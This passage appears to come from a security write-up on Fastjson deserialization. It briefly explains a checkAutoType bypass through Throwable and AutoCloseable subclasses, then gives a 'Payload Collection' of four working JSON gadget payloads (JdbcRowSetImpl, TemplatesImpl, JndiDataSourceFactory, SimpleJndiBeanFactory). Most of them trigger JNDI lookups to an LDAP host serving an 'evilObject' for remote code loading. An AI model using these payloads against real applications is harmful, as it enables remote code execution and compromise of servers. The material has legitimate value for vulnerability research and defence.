 After checkAutoType, createException will be used to create an instance of the exception class. This forms the way the Throwable subclass bypasses checkAutoType. We need to find a subclass of Throwable, which contains threatening code logic in the getter/`setter`/`static block`/`constructor. Similar to Throwable, there is also AutoCloseable (in the whitelist).

![](./images/50.png)

## Payload Collection

 - JdbcRowSetImpl

```java
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"ldap://127.0.0.1:8888/evilObject",
    "autoCommit": true
}
```

 - TemplatesImpl

```java
{
	"@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
	"_bytecodes": ["yv66vgA...k="],
	'_name': 'h3rmesk1t',
	'_tfactory': {},
	"_outputProperties": {},
}
```

 - JndiDataSourceFactory

```java
{
    "@type": "org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties": {
      "data_source":"ldap://127.0.0.1:8888/evilObject"
    }
}

```

 - SimpleJndiBeanFactory

```java
{
    "@type": "org.springframework.beans.factory.config.PropertyPathFactoryBean",
    "targetBeanName": "ldap://127.0.0.1:8888/evilObject",
    "propertyPath": "h3rmesk1t",
    "beanFactory": {
      "@type": "org.springframework.jndi.support.SimpleJndiBeanFactory",
      "shareableResources": [
        "ldap://127.0.0.1:8888/evilObject"
      ]
    }
}
```
